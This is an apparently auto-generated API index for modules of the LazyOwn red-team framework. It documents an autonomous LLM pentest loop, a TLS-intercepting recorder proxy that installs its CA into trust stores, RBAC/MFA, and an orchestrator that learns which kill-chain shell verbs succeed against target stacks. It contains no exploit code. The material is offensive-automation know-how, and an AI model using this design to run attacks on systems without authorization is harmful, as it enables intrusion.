- `_auto_retest` (line 8517) `def _auto_retest(self, task_id, graph, activity, traffic, executor, limit)` - *Automatically retest pending findings to a verdict.*
- `_wrapup_summary` (line 8537) `def _wrapup_summary(self, task_id, reason)` - *Task-level settlement: one bounded LLM turn persisted as a fact.

Port of the final wrap-up round: at budget/timeout the engine
writes back what it learned so the next operator or spawned task
starts from knowledge, not a cold graph. Without a pool it is a
no-op and the archived graph still carries everything.*
- `_evaluate_goal` (line 8572) `def _evaluate_goal(self, task_id)` - *Judge the task against its original goal, independent of step claims.

Ports the evaluator idea: every subtask may report success while the
user objective stands unmet. The verdict derives from graph evidence
(findings, coverage, facts), never from worker self-reports; an LLM
turn only upgrades the wording when a pool exists. The report lands
at ``sessions/lazy/report_<task>.md`` for the operator and the dataset.

Returns:
    Verdict dict with goal, verdict, coverage, counts and path.*
- `run` (line 8660) `def run(self, task_id, max_rounds, workers, executor, timeout_sec)` - *Drive rounds until goals met, frontier drains, or budget exhausts.*
- `prove_goal` (line 8843) `def prove_goal(self, task_id, goal_id, evidence_id, reason)` - *Mark goal met with finding/fact evidence like the planner prove_goal.

Refuses quantitative goals (coverage %, N flags) unless the
overview actually satisfies them — never stamp early.*
- `_check_goals` (line 8876) `def _check_goals(self, task_id, graph, activity)` - *Auto-prove goals whose text appears in a finding.*
- `_goals_met` (line 8883) `def _goals_met(self, task_id)` - *Report whether every goal node is done.*
- `delete_task` (line 8889) `def delete_task(self, task_id)` - *Delete a task record plus every store file scoped to it.

Matches file names carrying the task id as a full token so
``t0001`` never sweeps files of ``t00010``.

Args:
    task_id: Task to remove.

Returns:
    Dict with deleted flag and removed file names.*
- `proxy_start` (line 8923) `def proxy_start(self, host, port, task_id, trust, upstream)` - *Start the shared recorder proxy and apply its trust environment.

Args:
    host: Bind address (default 127.0.0.1).
    port: Bind port (default 8899).
    task_id: Task tag stored with each exchange.
    trust: Also install the CA into the system trust store,
        prompting sudo only when the anchor is missing or stale.
    upstream: Optional ``[user:pass@]host:port`` proxy to chain.

Returns:
    Proxy status dict including the CA path and trust outcome.*
- `proxy_stop` (line 8959) `def proxy_stop(self)` - *Stop the recorder proxy and clear its trust environment.*
- `proxy_status` (line 8967) `def proxy_status(self)` - *Return recorder proxy state (running, address, CA, exchanges).*
- `proxy_env` (line 8973) `def proxy_env(self)` - *Return the environment overrides that route tools via proxy.*
- `set_concurrency` (line 8982) `def set_concurrency(self, limit)` - *Cap concurrently running tasks; 0 disables admission control.

Args:
    limit: Max running tasks.

Returns:
    The stored cap.*
- `_sync_c2_board` (line 8994) `def _sync_c2_board(self, task_ids)` - *Mirror loop task states into the C2 Kanban board (best effort).*
- `admission_check` (line 9003) `def admission_check(self, task_id)` - *Return whether a task may run now, queueing it when capped.

Args:
    task_id: Task requesting a slot.

Returns:
    Dict with admitted flag; queued tasks carry active/cap counts.*
- `drain_queue` (line 9022) `def drain_queue(self, max_tasks)` - *Run queued tasks FIFO while the concurrency cap allows.

Args:
    max_tasks: Max queued tasks promoted in one pass.

Returns:
    Per-task run summaries.*
- `ingest_proxy_traffic` (line 9050) `def ingest_proxy_traffic(self, task_id, limit)` - *Mirror new recorder exchanges into the task traffic log.

A per-task rowid watermark keeps repeated rounds cheap; the
recorder exchange id rides in meta so ``lazy_traffic body`` can
fetch stored request/response bodies from the proxy store.

Args:
    task_id: Task receiving the mirrored rows.
    limit: Max rows per ingest page.

Returns:
    Number of freshly ingested exchanges.*
- `search_proxy_body` (line 9104) `def search_proxy_body(self, task_id, query, limit)` - *Full-text search proxy bodies scoped to one task's exchanges.

Args:
    task_id: Task whose ingested exchanges are searched.
    query: Phrase to search for.
    limit: Max hits.

Returns:
    Hits with exchange_id, url, status, host and snippet.*
- `_maybe_proxy_gc` (line 9130) `def _maybe_proxy_gc(self)` - *Sweep recorder exchanges older than the retention window.

Runs at most once every ``proxy_gc_interval_sec``; the last run
stamp lives in the shared lazy store so restarts do not resweep.

Returns:
    Removed exchange count (0 when skipped).*
- `_maybe_import_inbox` (line 9156) `def _maybe_import_inbox(self)` - *Import traffic archives dropped in the recorder inbox.

Returns:
    Number of imported exchanges (0 when the inbox is empty).*
- `_maybe_selfupdate_check` (line 9176) `def _maybe_selfupdate_check(self)` - *Report an available update at most once per interval.

Returns:
    Check summary (empty when skipped).*
- `export_task_traffic` (line 9196) `def export_task_traffic(self, task_id)` - *Export the task's proxy exchanges next to its archive.

Args:
    task_id: Task whose exchanges are exported.

Returns:
    Export summary (``exported`` 0 when the task has no traffic).*
- `export_evidence` (line 9225) `def export_evidence(self, task_id, dest)` - *Freeze every task artefact into a hash-manifested zip package.

The package is the audit hand-off: task registry, exploration
graph (goals, intents, facts, findings), activity trace, tool
traffic, rendered report and the per-task traffic archive. Each
file's SHA-256 is recorded in ``manifest.json`` so a reviewer can
prove the package was not altered after export.

Args:
    task_id: Task whose artefacts are frozen.
    dest: Optional destination zip path; defaults to
        ``sessions/lazy/evidence_<task_id>.zip``.

Returns:
    Dict with the package path and the number of frozen files.*
- `export_findings_report` (line 9284) `def export_findings_report(self, task_id, path, fmt)` - *Render the severity-ranked report to Markdown, JSON or CSV.

Args:
    task_id: Task to render.
    path: Destination file (defaults under the lazy store).
    fmt: ``md`` (default), ``json`` or ``csv``.

Returns:
    Dict with path, findings count and format.*
- `status` (line 9380) `def status(self, task_id)` - *Return full inspectable state for one task.*
- `graph_overview` (line 9400) `def graph_overview(self, task_id)` - *Return planner-facing overview plus coverage and scope.

Findings ride along in full (they are the highest-value, lowest
volume product) so every round sees every confirmed vuln without
an extra list call; host lists stay collapsed to a count.*
- `_finding_list` (line 9433) `def _finding_list(self, graph)` - *Full finding rows: severity-first, assets readable.*
- `broadcast` (line 9462) `def broadcast(self, task_id, kinds, query, order, page, per_page, states)` - *Paginated exploration timeline like the lazy broadcast board.

Each row carries its id, upstream/downstream neighbours and
anchored assets inline so expansion needs no extra request.
Search matches text, source and ``#id`` / plain-id forms.

Args:
    task_id: Task to read.
    kinds: Node kinds to keep (empty means all).
    query: Keyword or ``#41`` / ``41`` node-id filter.
    order: ``desc`` (newest first, live position) or ``asc``.
    page: 1-based page number.
    per_page: Rows per page (1..100).
    states: Node states to keep (empty means all).

Returns:
    Dict with items, total, page, per_page, has_more and days.*
- `_broadcast_row` (line 9537) `def _broadcast_row(self, graph, node)` - *Build one self-contained broadcast row for a node.*
- `loop_graph` (line 9586) `def loop_graph(self, task_id)` - *Return task graphs as ForceGraph-ready nodes/links.

Exploration nodes keep their kind/state/priority; asset nodes
ride along with their kind/value; exploration edges keep their
kind and anchors become ``anchors`` links. The Intel/attack
ForceGraph views and the broadcast board consume this shape
directly, so the operator sees the same topology the planner
ranks on.

Args:
    task_id: Task to export.

Returns:
    Dict with ``nodes`` and ``links`` lists.*
- `graph_context` (line 9655) `def graph_context(self, task_id, top)` - *Rank exploration topology to steer planner actions.

Hubs are the most connected exploration nodes (attention
concentrates there); islands are assets no intent anchored yet;
suggested orders untested scoped assets by anchor-degree so the
planner probes the best-connected surface first instead of id
order. Mirrors the ForceGraph hub/island lenses.

Args:
    task_id: Task to analyse.
    top: Max entries per section.

Returns:
    Dict with ``hubs``, ``islands``, ``suggested`` and ``stats``.*

#### `lazy_mentions.py`
**Path:** `modules/lazy_mentions.py`
**File Doc:** *LAZY chat mentions with multi-type search and scroll pagination.  Faithful to 0.3.12 chat @ references without Postgres or Go. Kinds cover findings, companies and asset flavours. Search matches id exactly first, then label text literally. Pages use an opaque cursor so scroll loading never re-skips earlier rows. Message tokens use English labels only and the server trusts type plus numeric id.*

**Classes:**
- `LazyMention` (line 35) `class LazyMention` - *Lightweight search hit, details re-read on send.*
- `LazyMentionPage` (line 45) `class LazyMentionPage` - *Single scroll page with optional cursor.*
- `InvalidCursor` (line 52) `class InvalidCursor(ValueError)` - *Opaque page position is stale, caller must search again.*

**Functions:**
- `_encode_cursor` (line 56) `def _encode_cursor(last_id, last_kind, exact, scope, query)` - *Encode scroll position as opaque cursor.*
- `_decode_cursor` (line 64) `def _decode_cursor(cursor, scope, query)` - *Validate cursor against current search scope.*
- `_literal_match` (line 84) `def _literal_match(haystack, query)` - *Case-insensitive literal match treating % _ \ as text.*
- `_collect_candidates` (line 91) `def _collect_candidates(kind, query)` - *Gather matches from lazy stores without external services.*
- `_finding_hits` (line 108) `def _finding_hits(query)` - *Search graph and workflow findings by id or text.*
- `_company_hits` (line 142) `def _company_hits(query)` - *Search company scopes by id, name or key.*
- `_asset_hits` (line 167) `def _asset_hits(kind, query)` - *Search asset graph by id or identifying text.*
- `_store_glob` (line 186) `def _store_glob(pattern)` - *Resolve lazy store glob base.*
- `search_mentions_page` (line 193) `def search_mentions_page(kind, query, cursor)` - *Search one scroll page of mention candidates.

Args:
    kind: Optional kind filter, empty means all types.
    query: Optional id exact or literal text filter.
    cursor: Opaque page position from the previous page.

Returns:
    Page with up to 20 items and a next cursor when more remain.

Raises:
    ValueError: When kind is unsupported or query too long.
    InvalidCursor: When cursor is stale.*
- `parse_mentions` (line 237) `def parse_mentions(message)` - *Parse @[kind#id] tokens trusting type plus numeric id only.

Args:
    message: Chat text with mention tokens.

Returns:
    Deduped reference list capped at 10 entries.

Raises:
    ValueError: When an id is invalid or mentions exceed budget.*
- `compose_message` (line 268) `def compose_message(message)` - *Append server-read snapshots for referenced records as data.

Args:
    message: Chat text with mention tokens.

Returns:
    Original text plus a snapshot block, unchanged when no refs.*
- `_load_snapshot` (line 296) `def _load_snapshot(kind, ref_id)` - *Read one referenced record by type and id.*

#### `lazy_orchestrator_feedback.py`
**Path:** `modules/lazy_orchestrator_feedback.py`
**File Doc:** *Organic orchestrator training from loop usage.  Mirrors how the detection oracle learns: per-command outcomes already flow online to MoE/Q-learning via ``loop_ai_bridge.record_step``; this module is the batch counterpart of ``DetectionFeed.adjust_from_feedback``. It reads the routing log written by :mod:`modules.lazy_intel` and produces two artefacts under ``sessions/lazy/``:  - ``verb_priors.json`` — per-(phase, verb) success rates. The planner consults them through :func:`verb_prior` to rank candidate verbs, so verbs that historically work for a phase float up without any manual tuning. Cold verbs (fewer than ``MIN_ATTEMPTS`` samples) keep their default order instead of being punished for having no history. - ``orchestrator_dataset.jsonl`` — instruction-tuning rows (instruction/input/output/reward/meta) exported by :func:`export_dataset` for TopoSwarm ``--finetune`` runs. Rows only exist when the operator actually ran the loop: usage writes the dataset, nobody hand-crafts it.  Stdlib only. Never raises; all entry points degrade gracefully.*

**Functions:**
- `_priors_path` (line 41) `def _priors_path()` - *Return priors path, ensuring the directory exists.*
- `_dataset_path` (line 47) `def _dataset_path()` - *Return dataset path, ensuring the directory exists.*
- `_reward_of` (line 53) `def _reward_of(outcome)` - *Score one outcome like the online trainer: 1 productive, 0 not.*
- `adjust_from_usage` (line 61) `def adjust_from_usage(limit)` - *Fold routing outcomes into per-(phase, stack, verb) success priors.

Stacks fingerprint the target services, so repeat engagements against
the same stack learn faster while unseen stacks fall back to global
priors. Stored shape per phase is ``{"_global": {...}, "_stacks":
{stack: {...}}}``; legacy flat files migrate on load.

Args:
    limit: Max routing records scanned from the tail.

Returns:
    Summary with verbs updated and outcomes seen.*
- `_normalize` (line 129) `def _normalize(priors)` - *Migrate legacy flat priors to the global/stacks shape.*
- `_load_priors` (line 144) `def _load_priors()` - *Return cached priors, reloading from disk when stale.*
- `verb_prior` (line 162) `def verb_prior(phase, verb, stack)` - *Return the success prior for one (phase, stack, verb) triple.

Stack-specific priors win when warm; otherwise the global pair
applies. Cold pairs return None so default order is preserved.

Args:
    phase: Kill-chain phase.
    verb: Shell verb.
    stack: Target stack fingerprint.

Returns:
    Prior dict with success/total/rate, or None when cold.*
- `rank_verbs` (line 189) `def rank_verbs(phase, verbs, stack)` - *Order verbs by learned success rate, stable for cold verbs.

Args:
    phase: Kill-chain phase the verbs serve.
    verbs: Candidate verb names in default order.
    stack: Target stack fingerprint for stack-specific priors.

Returns:
    Verbs with warm priors first (rate desc), cold verbs untouched
    after them in their original relative order.*
- `order_steps` (line 213) `def order_steps(steps, stack)` - *Reorder resolved step lines by stack-aware verb priors.

Args:
    steps: Command lines in planner order.
    stack: Target stack fingerprint.

Returns:
    Steps with warm-prior verbs first, order otherwise preserved.*
- `export_dataset` (line 238) `def export_dataset(out, limit)` - *Export instruction-tuning rows joined from decisions + outcomes.

Each row pairs the operator-visible intent (instruction/input) with
the command the loop chose (output) and the reward it earned, so a
TopoSwarm ``--finetune`` run learns orchestration from real usage.

Args:
    out: Destination path. Defaults to the store dataset file.
    limit: Max routing records scanned from the tail.

Returns:
    Summary with rows written and destination.*
- `_key` (line 228) `def _key(line)`

#### `lazy_proxy.py`
**Path:** `modules/lazy_proxy.py`
**File Doc:** *Recording HTTP/HTTPS proxy for the autonomous loop.  Every exchange a worker (or any tool the operator routes) sends through this proxy is persisted with the existing :class:`modules.traffic_recorder.TrafficRecorder`: file-tree bodies plus SQLite index. HTTPS is terminated with a locally generated CA so request and response bodies are captured for findings/evidence; the CA certificate path is exported so curl/requests/python trust it.  Automation contract: ``LazyLoopEngine.proxy_start()`` starts one shared recorder instance; ``auto_loop`` starts it when ``proxy_autostart`` is on and points the worker environment at it; every round ingests new exchanges into the task traffic log so ``lazy_traffic`` and finding evidence see proxy traffic like any bash execution.  Fail-open policy: recorder or TLS problems never kill the operator's traffic; the proxy answers 502 and keeps serving.*

**Classes:**
- `CertificateAuthority` (line 455) `class CertificateAuthority` - *On-disk CA plus cached per-host leaf certificates for MITM.*
- `ProxyController` (line 635) `class ProxyController` - *Owns the single shared recorder proxy instance.*
- `RecorderServer` (line 607) `class RecorderServer(ThreadingHTTPServer)`
- `ProxyHandler` (line 747) `class ProxyHandler(BaseHTTPRequestHandler)` - *Forwards and records HTTP and MITM'd HTTPS exchanges.*

**Functions:**
- `_proxy_allow_private` (line 93) `def _proxy_allow_private()` - *Return True when private/loopback targets stay reachable.

The recorder proxy is a pentest tool: lab targets live on
RFC1918/loopback. Blocking them by default would break the core
workflow, so they stay allowed unless the operator sets
``LAZY_PROXY_ALLOW_PRIVATE=0``. Cloud metadata endpoints are
always denied regardless of this flag.*
- `_proxy_insecure_tls` (line 105) `def _proxy_insecure_tls()` - *Return True only when the operator explicitly opts into no-verify TLS.*
- `_proxy_trust_ca` (line 110) `def _proxy_trust_ca()` - *Return an extra CA bundle path for upstream verification, if configured.*
- `_is_metadata_ip` (line 115) `def _is_metadata_ip(value)` - *Return True for known cloud instance-metadata service addresses.*
- `_is_metadata_hostname` (line 129) `def _is_metadata_hostname(host)` - *Return True for well-known cloud metadata DNS names.*
- `_host_syntax_valid` (line 141) `def _host_syntax_valid(host)` - *Validate host syntax without trusting its value for routing.*
- `_resolved_ips` (line 157) `def _resolved_ips(host)` - *Resolve host to literal IPs; empty list when DNS is unavailable.*
- `_validate_proxy_target` (line 171) `def _validate_proxy_target(host, port, scheme)` - *Validate a proxy target derived from client-controlled data.

Raises:
    ValueError: When the target is malformed or denied by SSRF policy.

Policy: scheme must be http/https, port 1-65535, host syntax valid,
``0.0.0.0``/unspecified rejected, cloud metadata hosts/IPs always
rejected (including DNS-resolved addresses), private/loopback allowed
only when ``LAZY_PROXY_ALLOW_PRIVATE`` is on.*
- `_upstream_tls_context` (line 224) `def _upstream_tls_context(server_hostname)` - *Build a verifying client TLS context for upstream connections.

Hostname checking stays on with ``CERT_REQUIRED`` and TLS 1.2 floor.
An operator bundle from ``LAZY_PROXY_TRUST_CA`` is loaded when set.
An explicit ``LAZY_PROXY_INSECURE_TLS=1`` opt-in returns an
unverified context (logged once); request data can never enable it.*
- `_is_lab_host` (line 261) `def _is_lab_host(host)` - *Return True for loopback/private literals or localhost.*
- `_https_connection` (line 273) `def _https_connection(host, port)` - *Return an HTTPS connection, verifying by default.

Public targets always verify. Lab (loopback/private) targets with
self-signed certs fall back to unverified only to preserve the
recorder workflow, with a one-time warning; the fallback is gated
by operator policy, never by request data.*
- `_default_traffic_dir` (line 284) `def _default_traffic_dir()` - *Return the shared recorder directory under the repository.*
- `_parse_upstream` (line 289) `def _parse_upstream(spec)` - *Parse ``[user:pass@]host:port`` into an upstream proxy spec.*
- `_upstream_auth_header` (line 307) `def _upstream_auth_header(auth)` - *Build a Proxy-Authorization header from ``user:pass``.*
- `_cert_stem` (line 317) `def _cert_stem(host)` - *Normalize a host into a filesystem-safe certificate name.*
- `detect_trust_target` (line 322) `def detect_trust_target()` - *Return the first existing system trust anchor directory and refresh command.*
- `ca_trusted` (line 330) `def ca_trusted(ca_path)` - *Return True when the system anchor already holds this CA.*
- `_run_root` (line 342) `def _run_root(argv)` - *Run a privileged command, prompting for sudo only when needed.*
- `detect_nss_profiles` (line 349) `def detect_nss_profiles()` - *Return user NSS database directories (Firefox profiles + Chrome).*
- `install_ca_nss` (line 364) `def install_ca_nss(ca_path, runner, profiles)` - *Install the recorder CA into user NSS databases via certutil.

NSS stores are user-owned, so no sudo is required; the command is a
no-op when certutil or the profiles are missing.

Args:
    ca_path: CA certificate PEM path.
    runner: Injection point for certutil execution (tests).
    profiles: Explicit NSS directories (defaults to auto-discovery).

Returns:
    Dict with installed/profiles counts and reason; never raises.*
- `install_ca_trust` (line 404) `def install_ca_trust(ca_path, runner)` - *Install the recorder CA into the system trust store.

The anchor is only written when the CA is missing or stale; sudo is
invoked then and prompts on the operator terminal. Non-interactive
callers (MCP) fail soft with a reason instead of hanging.

Args:
    ca_path: CA certificate PEM path.
    runner: Injection point for privileged execution (tests).

Returns:
    Dict with installed flag, anchor path and reason; never raises.*
- `_utc` (line 589) `def _utc(timestamp)` - *Return a naive UTC datetime for x509 builders.*
- `_sha256` (line 596) `def _sha256()` - *Return the SHA-256 hasher used for certificate signatures.*
- `_server_class` (line 603) `def _server_class()` - *Build the ThreadingHTTPServer subclass with recorder attachments.*
- `_make_handler` (line 743) `def _make_handler()` - *Build the request handler class bound to the recorder server.*
- `get_proxy` (line 1151) `def get_proxy()` - *Return the process-wide recorder proxy controller.*
- `env_for_ca` (line 1160) `def env_for_ca(ca_path, host, port)` - *Build the environment overrides that route tools through the proxy.*
- `apply_env` (line 1176) `def apply_env(ca_path, host, port)` - *Apply proxy env vars, returning the previous values for restore.*
- `restore_env` (line 1183) `def restore_env(previous)` - *Restore environment values captured by :func:`apply_env`.*

**Methods:**
- `__init__` (line 458) `def __init__(self, pki_dir)` - *Load or create the CA under ``pki_dir``.*
- `_ensure_ca` (line 470) `def _ensure_ca(self)` - *Create the CA key/cert once and load them into memory.*
- `_write_leaf` (line 525) `def _write_leaf(self, host, cert_path, key_path)` - *Generate and persist one leaf certificate for ``host``.*
- `context_for` (line 568) `def context_for(self, host)` - *Return the server TLS context for one host, generating on miss.*
- `__init__` (line 638) `def __init__(self)` - *Prepare state; nothing binds until :meth:`start`.*
- `start` (line 651) `def start(self, host, port, task_id, traffic_dir, upstream)` - *Bind the recorder proxy; idempotent while already running.

Args:
    host: Bind address.
    port: Bind port (0 picks a free one).
    task_id: Task tag stored with each exchange.
    traffic_dir: Recorder directory override.
    upstream: Optional ``[user:pass@]host:port`` proxy to chain.

Returns:
    Proxy status dict.*
- `stop` (line 696) `def stop(self)` - *Shut the proxy down; safe when it was never started.*
- `status` (line 712) `def status(self)` - *Report running state, address, CA path and exchange count.*
- `recorder` (line 734) `def recorder(self)` - *Return the live recorder for ingestion, or None when stopped.*
- `ca_path` (line 738) `def ca_path(self)` - *Return the CA certificate path for trust-store wiring.*
- `__init__` (line 611) `def __init__(self, address, handler)`
- `handle_error` (line 618) `def handle_error(self, request, client_address)` - *Silence client-side connection noise instead of tracebacks.

A browsing target that drops the connection while the proxy
writes a 502 must not dump a BrokenPipeError traceback per
request; real server faults still go to the default handler.*
- `log_message` (line 753) `def log_message(self, fmt)` - *Silence per-request logging; the recorder is the audit trail.*
- `do_CONNECT` (line 757) `def do_CONNECT(self)` - *Terminate TLS for a CONNECT tunnel and record inner requests.*
- `_safe_send_error` (line 802) `def _safe_send_error(self, code, message)` - *Send an HTTP error; a gone client is never an exception.*
- `do_GET` (line 809) `def do_GET(self)` - *Forward every plain HTTP method through one path.*
- `_forward_plain` (line 820) `def _forward_plain(self)` - *Forward an absolute-URI or origin-form request and record it.*
- `_relay` (line 894) `def _relay(self, scheme, host, port, path, url, headers, body)` - *Send one request upstream (direct or chained); return response.*
- `_open_target` (line 973) `def _open_target(self, scheme, host, port)` - *Open a raw upstream connection, chaining through the proxy.*
- `_maybe_tls` (line 994) `def _maybe_tls(sock, scheme, host)` - *Wrap a socket in TLS for https targets with verification.*
- `_read_headers_from` (line 1014) `def _read_headers_from(sock, limit)` - *Read bytes until the HTTP header terminator.*
- `_handle_websocket` (line 1024) `def _handle_websocket(self, scheme, host, port, path, url, req_headers)` - *Pass a WebSocket upgrade through, recording the handshake.*
- `_record` (line 1109) `def _record(self, scheme, host, port, url, status, req_headers, resp_headers, req_body, resp_body, content_type, error)` - *Persist one exchange; recorder failures never break proxying.*

#### `lazy_rbac.py`
**Path:** `modules/lazy_rbac.py`
**File Doc:** *modules/lazy_rbac.py ==================== Role-Based Access Control, Multi-Factor Authentication, and Multi-Tenancy for the LazyOwn RedTeam Framework.  Provides: - RBAC: admin, operator, viewer, auditor roles with permission enforcement - MFA: TOTP-based multi-factor auth (self-hosted, pyotp, no external APIs) - Multi-tenancy: payload profiles + session isolation per engagement - Decorators: @require_role, @require_permission for Flask routes - CLI integration: command-level permission checks  Architecture ------------ - Roles are defined as enums with permission bitmasks - Users stored in users.json with role, mfa_secret, mfa_enabled fields - Tenancy managed via payloads/ directory with named profiles - Zero cost: pyotp is already a dependency, no external services needed*

**Classes:**
- `Role` (line 55) `class Role(Enum)`
- `Permission` (line 66) `class Permission(Enum)`
- `_UsersFileUnreadable` (line 115) `class _UsersFileUnreadable(Exception)` - *Raised when users.json exists but cannot be read (permissions, etc.).

Callers must never treat this condition as an empty store; overwriting
an existing operator database based on a read failure would destroy it.*
- `RBACUser` (line 124) `class RBACUser`
- `RBACStore` (line 210) `class RBACStore` - *Persistence layer for RBAC users.*
- `TenantConfig` (line 368) `class TenantConfig`
- `TenantManager` (line 394) `class TenantManager` - *Multi-tenancy engine: payload profiles + session isolation.*

**Functions:**
- `_generate_recovery_codes` (line 356) `def _generate_recovery_codes(count)`
- `_slugify` (line 514) `def _slugify(name)`
- `init_rbac_store` (line 523) `def init_rbac_store(users_path)`
- `init_tenant_manager` (line 527) `def init_tenant_manager(payloads_dir, config_path, default_payload)`
- `require_role` (line 539) `def require_role()` - *Flask decorator: require one of the given roles. Must be used WITH @login_required.*
- `require_permission` (line 565) `def require_permission()` - *Flask decorator: require specific permissions.*
- `require_mfa` (line 596) `def require_mfa(f)` - *Decorator that enforces MFA before accessing protected routes.*
- `_get_rbac_user` (line 619) `def _get_rbac_user(flask_user)` - *Extract RBACUser from Flask-Login current_user.*
- `_get_rbac_store` (line 632) `def _get_rbac_store()`
- `get_rbac_store` (line 639) `def get_rbac_store()`
- `set_rbac_store` (line 643) `def set_rbac_store(store)`
- `get_tenant_manager` (line 648) `def get_tenant_manager()`
- `set_tenant_manager` (line 655) `def set_tenant_manager(tm)`
- `check_cli_permission` (line 660) `def check_cli_permission(username, permission)` - *Check if a CLI user has the given permission.*
- `get_user_role` (line 672) `def get_user_role(username)`
- `generate_mfa_qr_url` (line 680) `def generate_mfa_qr_url(secret, username)` - *Generate a QR code data URI for MFA setup (local, no external API).

Uses the /mfa/qr/<username> endpoint which generates the QR code
server-side as an SVG image. Zero external dependencies.*
- `generate_qr_svg` (line 689) `def generate_qr_svg(data)` - *Generate an SVG QR code image from text data.

Pure Python implementation. Automatically selects the appropriate
QR version based on data length. Zero external dependencies.*
- `_qr_choose_version` (line 744) `def _qr_choose_version(data)`
- `_qr_ec_codewords` (line 752) `def _qr_ec_codewords(version)`
- `_qr_encode_alphanumeric` (line 757) `def _qr_encode_alphanumeric(data, version)`
- `_qr_data_bits_for_version` (line 812) `def _qr_data_bits_for_version(version)`
- `_qr_blank_matrix` (line 823) `def _qr_blank_matrix(version)`
- `_qr_place_dark_module` (line 832) `def _qr_place_dark_module(matrix, size, version)`
- `_qr_add_format_info` (line 836) `def _qr_add_format_info(modules, size, ecl_bits, mask)`
- `_qr_svg_error` (line 860) `def _qr_svg_error(msg)`
- `_qr_place_finders` (line 869) `def _qr_place_finders(matrix, size)`
- `_qr_place_timing` (line 878) `def _qr_place_timing(matrix, size)`
- `_qr_data_bits_positions` (line 884) `def _qr_data_bits_positions(matrix, size)`
- `_bits_to_bytes` (line 903) `def _bits_to_bytes(bits, data_bits)`
- `_reed_solomon_encode` (line 914) `def _reed_solomon_encode(data, ec_words)`
- `_qr_best_mask` (line 950) `def _qr_best_mask(modules, size)`
- `_qr_apply_mask` (line 963) `def _qr_apply_mask(modules, size, mask)`
- `_qr_penalty` (line 996) `def _qr_penalty(modules, size)`
- `_qr_render_svg` (line 1058) `def _qr_render_svg(modules, size, modules_per_pixel)`
- `decorator` (line 542) `def decorator(f)`
- `decorator` (line 568) `def decorator(f)`
- `decorated` (line 600) `def decorated()`
- `gf_mul` (line 927) `def gf_mul(a, b)`
- `decorated` (line 544) `def decorated()`
- `decorated` (line 570) `def decorated()`

**Methods:**
- `valid_roles` (line 62) `def valid_roles(cls)`
- `to_dict` (line 136) `def to_dict(self)`
- `from_dict` (line 140) `def from_dict(cls, data)`
- `get_role` (line 164) `def get_role(self)`
- `has_permission` (line 170) `def has_permission(self, permission)`
- `can_manage_role` (line 174) `def can_manage_role(self, target_role)` - *Check if this user can assign/manage the given role.*
- `get_mfa_provisioning_uri` (line 182) `def get_mfa_provisioning_uri(self)`
- `verify_totp` (line 187) `def verify_totp(self, token)`
- `verify_recovery_code` (line 192) `def verify_recovery_code(self, code)`
- `consume_recovery_code` (line 200) `def consume_recovery_code(self, code)`
- `__init__` (line 213) `def __init__(self, users_path)`
- `_read_users` (line 217) `def _read_users(self)`
- `_write_users` (line 232) `def _write_users(self, users)`
- `load_all` (line 245) `def load_all(self)`
- `find_by_id` (line 249) `def find_by_id(self, user_id)`
- `find_by_username` (line 255) `def find_by_username(self, username)`
- `save` (line 261) `def save(self, user)`
- `create_user` (line 274) `def create_user(self, username, password_hash, role, tenant_id)`
- `delete_user` (line 295) `def delete_user(self, user_id)`
- `update_role` (line 304) `def update_role(self, user_id, new_role)`
- `enable_mfa` (line 314) `def enable_mfa(self, user_id)`
- `disable_mfa` (line 324) `def disable_mfa(self, user_id)`
- `consume_recovery_code` (line 334) `def consume_recovery_code(self, user_id, code)`
- `ensure_admin` (line 343) `def ensure_admin(self, username, password_hash)` - *Ensure at least one admin exists, creating one if needed.*
- `from_payload` (line 377) `def from_payload(cls, tenant_id, name, payload_path)`
- `to_dict` (line 386) `def to_dict(self)`
- `from_dict` (line 390) `def from_dict(cls, data)`
- `__init__` (line 397) `def __init__(self, payloads_dir, config_path, default_payload)`
- `_load_config` (line 410) `def _load_config(self)`
- `_save_config` (line 421) `def _save_config(self)`
- `list_tenants` (line 431) `def list_tenants(self)`
- `get_active` (line 434) `def get_active(self)`
- `get_active_payload_path` (line 439) `def get_active_payload_path(self)`
- `get_active_sessions_dir` (line 445) `def get_active_sessions_dir(self)`
- `get_payload_for_tenant` (line 451) `def get_payload_for_tenant(self, tenant_id)`
- `create_tenant` (line 457) `def create_tenant(self, name, base_payload)`
- `switch_tenant` (line 486) `def switch_tenant(self, tenant_id)`
- `delete_tenant` (line 495) `def delete_tenant(self, tenant_id)`
- `ensure_default_tenant` (line 504) `def ensure_default_tenant(self)`

#### `lazy_roles.py`
**Path:** `modules/lazy_roles.py`
**File Doc:** *Lazy specialist roles for the autonomous loop.  Ports the useful half of the multi-agent pattern (dedicated planning, execution, memory, review and repair perspectives) with Lazy branding and Lazy execution semantics: roles are prompt perspectives over the existing ``LlmPool``, not separate services. Workers keep executing real Lazy shell commands through the Guard; a role only shapes what the model proposes.  Stdlib only.*

**Functions:**
- `list_roles` (line 100) `def list_roles()` - *Return every Lazy role descriptor.

Returns:
    List of dicts with name, lane, phases and prompt.*
- `role_prompt` (line 109) `def role_prompt(role, goal, context)` - *Build the system prompt for one role.

Args:
    role: Role name from :data:`LAZY_ROLES`.
    goal: Current task goal prepended as objective.
    context: Optional bounded context appended after the role brief.

Returns:
    Full prompt text.

Raises:
    KeyError: Unknown role.*
- `roles_for_phase` (line 134) `def roles_for_phase(phase)` - *Return role names serving one kill-chain phase.

Args:
    phase: Kill-chain phase.

Returns:
    Role names in definition order.*
- `conformance` (line 154) `def conformance(role)` - *Probe every pool member with role prompts, like provider conformance.

Each member answers the same fixed probe under each role perspective.
Results persist to ``sessions/lazy/llm_conformance.json`` with a
fastest-healthy affinity map (role -> member) the planner can prefer.

Args:
    role: Single role to probe, or all roles when empty.

Returns:
    Summary with per-member results and affinity. Never raises.*

#### `lazy_runner.py`
**Path:** `modules/lazy_runner.py`
**File Doc:** *Single execution path for ``lazy_loop`` and ``auto_loop``.  Both commands are the same engine by contract; this module owns the one runner so their behavior cannot drift again. Command sets only parse arguments into a :class:`LoopRunConfig` — everything operational lives here: terminal safety, autonomous prompt suppression, live worker streaming, the Rich milestone panel, cancellation and the final summary.*

**Classes:**
- `ThreadStdoutRouter` (line 41) `class ThreadStdoutRouter(TextIOBase)` - *stdout proxy: main thread keeps the real stream, workers spool.

A plain ``redirect_stdout`` is process-global: a cancelled
orchestrator thread that outlives the command keeps ``sys.stdout``
pointed at an abandoned queue, leaving the shell apparently hung.
This router only captures non-main threads, so restoring the real
stream from the main thread always leaves a working shell.*
- `LoopRunConfig` (line 90) `class LoopRunConfig` - *Everything one loop invocation needs, parsed by the command sets.*

**Functions:**
- `_to_int` (line 121) `def _to_int(raw, default)` - *Parse an integer flag value, falling back to the default.*
